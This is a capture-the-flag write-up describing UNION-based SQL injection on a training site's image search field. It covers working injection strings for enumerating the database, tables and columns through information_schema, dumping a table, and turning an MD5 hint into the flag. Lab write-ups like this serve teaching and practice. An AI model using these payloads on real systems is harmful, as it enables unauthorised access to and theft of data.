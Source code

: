 # **Description:**

The challenge presented a web page with a "SEARCH IMAGE" section. Clicking on it led to an input field labeled "IMAGE NUMBER:" with a submit button. The objective was to identify and exploit a potential SQL injection vulnerability.

## **Vulnerability:**

The application was vulnerable to UNION-based SQL injection due to unsanitized user input in the search field.

## **Exploitation:**

### `Testing for SQL Injection:`
Entering `1'` in the input field resulted in no output. However, testing with:
```
1 union select null, null
```
returned:
```
ID: 1 union select null, null
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 union select null, null
Title:
Url :
```
This confirmed the presence of a UNION-based SQL injection vulnerability.

### `Retrieving Database Name:`
```
0 union select null, database()
```
Returned:
```
ID: 0 union select null, database()
Title: Member_images
Url :
```
The database name was `Member_images`.

### `Enumerating Tables:`
```
0 union select null, group_concat(table_name) from information_schema.tables where table_schema=0x4d656d6265725f696d61676573
```
Result:
```
ID: 0 union select null, group_concat(table_name) from information_schema.tables where table_schema=0x4d656d6265725f696d61676573
Title: list_images
Url :
```
The table `list_images` was identified.

### `Enumerating Columns:`
```
0 union select null, group_concat(column_name) from information_schema.columns where table_name=0x6c6973745f696d61676573
```
Result:
```
ID: 0 union select null, group_concat(column_name) from information_schema.columns where table_name=0x6c6973745f696d61676573
Title: id,url,title,comment
Url :
```
The columns in `list_images` were `id, url, title, comment`.

### `Extracting Data:`
```
0 union select null, group_concat(id, 0x3a, url, 0x3a, title, 0x3a, comment) from list_images
```
Result:
```
ID: 0 union select null, group_concat(id, 0x3a, url, 0x3a, title, 0x3a, comment) from list_images
Title: 1:https://fr.wikipedia.org/wiki/Programme_:Nsa:An image about the NSA !,2:https://fr.wikipedia.org/wiki/Fichier:42:42 !:There is a number..,3:https://fr.wikipedia.org/wiki/Logo_de_Go:Google:Google it !,4:https://en.wikipedia.org/wiki/Earth#/med:Earth:Earth!,5:borntosec.ddns.net/images.png:Hack me ?:If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url :
```
The extracted data included a clue leading to the final flag.

## **Flag Retrieval:**
The comment field contained a hint: `If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`.
By decoding the MD5 hash to lowercase and then applying SHA256, the final flag was obtained.

